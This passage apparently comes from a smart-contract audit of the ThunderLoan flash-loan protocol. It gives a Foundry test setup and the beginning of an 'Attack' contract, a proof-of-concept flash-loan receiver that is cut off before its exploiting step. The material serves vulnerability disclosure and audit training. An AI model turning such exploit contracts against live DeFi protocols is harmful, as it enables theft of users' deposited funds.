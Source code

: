 ```Solidity
function setUp() public override {
        super.setUp();
        vm.prank(user);
        mockFlashLoanReceiver = new MockFlashLoanReceiver(address(thunderLoan));
        vm.prank(user);
        attack = new Attack(address(thunderLoan));
    }
```

attack.sol

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { SafeERC20 } from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import { IFlashLoanReceiver } from "../../src/interfaces/IFlashLoanReceiver.sol";

interface IThunderLoan {
    function repay(address token, uint256 amount) external;
    function deposit(IERC20 token, uint256 amount) external;
    function getAssetFromToken(IERC20 token) external;
}


contract Attack {
    error MockFlashLoanReceiver__onlyOwner();
    error MockFlashLoanReceiver__onlyThunderLoan();

    using SafeERC20 for IERC20;

    address s_owner;
    address s_thunderLoan;

    uint256 s_balanceDuringFlashLoan;
    uint256 s_balanceAfterFlashLoan;

    constructor(address thunderLoan) {
        s_owner = msg.sender;
        s_thunderLoan = thunderLoan;
        s_balanceDuringFlashLoan = 0;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata /*  params */
    )
        external
        returns (bool)
    {
        s_balanceDuringFlashLoan = IERC20(token).balanceOf(address(this));

        if (initiator != s_owner) {
            revert MockFlashLoanReceiver__onlyOwner();
        }

        if (msg.sender != s_thunderLoan) {
            revert MockFlashLoanReceiver__onlyThunderLoan();
        }
        IERC20(token).approve(s_thunderLoan, amount + fee);
```